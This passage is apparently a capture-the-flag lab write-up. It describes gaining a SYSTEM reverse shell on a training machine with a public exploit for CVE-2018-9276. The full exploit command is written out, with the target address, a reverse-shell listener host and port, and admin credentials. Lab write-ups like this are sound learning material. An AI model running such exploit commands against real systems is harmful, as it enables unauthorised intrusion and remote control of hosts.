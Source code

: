 With a publicly available exploit for authenticated RCE, found a [GitHub](https://github.com/A1vinSmith/CVE-2018-9276) repo that supports Python3 
```
python exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.16.2 --lport 443 --user 'prtgadmin' --password 'PrTg@dmin2019'
```
Got reverse shell as `nt system\authority`

No need to privesc. Got both flags.